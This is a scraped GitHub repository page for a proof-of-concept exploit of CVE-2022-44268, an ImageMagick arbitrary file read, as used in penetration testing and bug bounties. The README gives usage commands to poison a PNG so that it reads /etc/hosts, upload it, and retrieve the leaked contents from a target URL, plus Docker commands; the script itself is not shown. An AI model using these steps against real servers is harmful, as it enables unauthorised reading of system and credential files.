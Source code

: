 # CVE-2022-44268

CVE-2022-44268 ImageMagick Arbitrary File Read - Proof of Concept exploit

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/kljunowsky](https://github.com/kljunowsky) |
| Url      | [https://github.com/kljunowsky/CVE-2022-44268](https://github.com/kljunowsky/CVE-2022-44268)                                               |
| Stars    | 6                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* applicati* bugbounty* bugbounty-tool* bugbountytips* cve-2022-44268* exploit* penetration-testing* penetration-testing-tools* proof-of-concept* security* web* webapplicationhacking

</details>

## Readme

# CVE-2022-44268 🧙‍♂️

CVE-2022-44268 ImageMagick Arbitrary File Read - Proof of Concept exploit

### Video 📼
https://youtu.be/quKxwNAMBIA


## Usage 🛠 

Poison the image ☣️
```
python3 CVE-2022-44268.py --image imagetopoison.png --file-to-read /etc/hosts --output poisoned.png
```
```
Upload poisoned PNG image.
```
Check if exploit was successful 🗡
```
python3 CVE-2022-44268.py --url http://vulnerable-imagemagick.com/uploads/vulnerable.png
```

## Running from Docker :whale:

Build
```
docker build -t cve-2022-44268 .
```

Run
```
docker run -v $(pwd)/data:/data -ti cve-2022-44268 --image /data/random.png --file-to-read "/etc/hosts" --output /data/poisoned.png
```

## Parameters 🧰 

Parameter | Description | Type
------------ | ------------- | -------------
--url | The URL of the uploaded PNG image | String
--image | Input PNG file | File
--output | Output PNG file | File
--file-to-read | File to read from vulnerable host | String


## Contact Me📇

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[ShiftSecurityConsulting](https://shiftsecurityconsulting.com)

#### Educational purposes only and cannot be used for law violation or personal gain.
#### The author of this project is not responsible for any possible harm caused by the materials of this project.
#### More details: https://www.metabaseq.com/imagemagick-zero-days/



## Get the content

```
git clone https://github.com/kljunowsky/CVE-2022-44268
cd CVE-2022-44268
```

{% embed url="https://github.com/kljunowsky/CVE-2022-44268" %}

<figure><img src="https://avatars.githubusercontent.com/u/104329412?v=4" alt=""><figcaption><p>kljunowsky</p></figcaption></figure>
